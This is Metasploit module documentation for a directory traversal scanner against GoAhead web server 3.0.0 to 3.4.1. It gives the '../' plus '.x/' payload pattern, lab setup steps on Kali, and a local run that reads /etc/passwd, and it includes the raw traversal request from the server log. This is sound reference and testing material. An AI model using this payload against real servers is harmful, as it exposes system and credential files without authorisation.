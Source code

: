 ## Vulnerable Application

GoAhead web server by EmbedThis versions from 3.0.0 through 3.4.1 contains a directory traversal vulnerability.
To exploit this vulnerability, each `../` must be matched with a `.x/`, with each being grouped together.
For instance a depth of 2 will look as follows: `../../.x/.x/foobar`.

An excellent writeup is available on [PacketStorm](https://packetstormsecurity.com/files/131156/GoAhead-3.4.1-Heap-Overflow-Traversal.html).

### Install on Kali

Since `goahead` is available on Git, we can simply download the vulnerable version, compile, and run it.

```
root@kali:/tmp# wget https://github.com/embedthis/goahead/archive/v3.4.1.tar.gz
--2019-10-07 20:42:28--  https://github.com/embedthis/goahead/archive/v3.4.1.tar.gz
Resolving github.com (github.com)... 192.30.253.113
Connecting to github.com (github.com)|192.30.253.113|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/embedthis/goahead/tar.gz/v3.4.1 [following]
--2019-10-07 20:42:29--  https://codeload.github.com/embedthis/goahead/tar.gz/v3.4.1
Resolving codeload.github.com (codeload.github.com)... 192.30.253.120
Connecting to codeload.github.com (codeload.github.com)|192.30.253.120|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: ‘v3.4.1.tar.gz’

v3.4.1.tar.gz                                   [     <=>                                                                                 ]   5.95M  6.35MB/s    in 0.9s    

2019-10-07 20:42:30 (6.35 MB/s) - ‘v3.4.1.tar.gz’ saved [6234594]

root@kali:/tmp# tar -zxf v3.4.1.tar.gz 
root@kali:/tmp# cd goahead-3.4.1/
root@kali:/tmp/goahead-3.4.1# make
make --no-print-directory -f projects/goahead-linux-default.mk all
      [Info] Use make SHOW=1 to trace executed commands.
      [Copy] build/linux-x64-default/bin/ca.crt
      [Copy] build/linux-x64-default/inc/osdep.h
      [Copy] build/linux-x64-default/inc/est.h
   [Compile] build/linux-x64-default/obj/estLib.o
      [Link] build/linux-x64-default/bin/libest.so
      [Copy] build/linux-x64-default/inc/goahead.h
      [Copy] build/linux-x64-default/inc/js.h
   [Compile] build/linux-x64-default/obj/action.o
   [Compile] build/linux-x64-default/obj/alloc.o
   [Compile] build/linux-x64-default/obj/auth.o
   [Compile] build/linux-x64-default/obj/cgi.o
   [Compile] build/linux-x64-default/obj/crypt.o
   [Compile] build/linux-x64-default/obj/file.o
   [Compile] build/linux-x64-default/obj/fs.o
   [Compile] build/linux-x64-default/obj/http.o
   [Compile] build/linux-x64-default/obj/js.o
   [Compile] build/linux-x64-default/obj/jst.o
   [Compile] build/linux-x64-default/obj/options.o
   [Compile] build/linux-x64-default/obj/osdep.o
   [Compile] build/linux-x64-default/obj/rom-documents.o
   [Compile] build/linux-x64-default/obj/route.o
   [Compile] build/linux-x64-default/obj/runtime.o
   [Compile] build/linux-x64-default/obj/socket.o
   [Compile] build/linux-x64-default/obj/upload.o
   [Compile] build/linux-x64-default/obj/est.o
   [Compile] build/linux-x64-default/obj/matrixssl.o
   [Compile] build/linux-x64-default/obj/nanossl.o
   [Compile] build/linux-x64-default/obj/openssl.o
      [Link] build/linux-x64-default/bin/libgo.so
   [Compile] build/linux-x64-default/obj/goahead.o
      [Link] build/linux-x64-default/bin/goahead
   [Compile] build/linux-x64-default/obj/test.o
      [Link] build/linux-x64-default/bin/goahead-test
   [Compile] build/linux-x64-default/obj/gopass.o
      [Link] build/linux-x64-default/bin/gopass

You can now install via "sudo make  install" or run GoAhead via: "sudo make run"
To run locally, put linux-x64-default/bin in your path

root@kali:/tmp/goahead-3.4.1# build/linux-x64-default/bin/goahead --verbose --home test /var/www/html/
```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/goahead_traversal```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set depth [number]```
  6. Do: ```run```
  7. You should get the file contents.

## Options

  **DEPTH**

  The depth to traverse from the webroot.  This does not need to be exact, overshooting (using a number larger than needed)
  will still result in the file being obtained.  Default is `5`

  **FILEPATH**

  The path to the file to read.  Default is `/etc/passwd`.

## Scenarios

### GoAhead 3.4.1 on Kali

Install from the instructions at the top of this document.

```
msf > use auxiliary/scanner/http/goahead_traversal 
msf auxiliary(scanner/http/goahead_traversal) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(scanner/http/goahead_traversal) > set depth 5
depth => 5
msf auxiliary(scanner/http/goahead_traversal) > run

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

[+] File saved in: /root/.msf4/loot/20191007213309_default_127.0.0.1_goahead.traversa_324804.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Server Logs

When setting the server to verbose output, the following is shown during exploitation:

```
# build/linux-x64-default/bin/goahead --verbose --home test /var/www/html/
goahead: 2: Configuration for Embedthis GoAhead
goahead: 2: ---------------------------------------------
goahead: 2: Version:            3.4.1
goahead: 2: BuildType:          Debug
goahead: 2: CPU:                x64
goahead: 2: OS:                 linux
goahead: 2: Host:               127.0.1.1
goahead: 2: Directory:          /var/www/html/goahead-3.4.1/test
goahead: 2: Documents:          /var/www/html/
goahead: 2: Configure:          me -d -q -platform linux-x86-default -configure . -with est -gen make
goahead: 2: ---------------------------------------------
goahead: 2: Started http://*:80
goahead: 2: Started https://*:443
goahead: 2: GET ../../../../../.x/.x/.x/.x/.x/etc/passwd HTTP/1.1
```
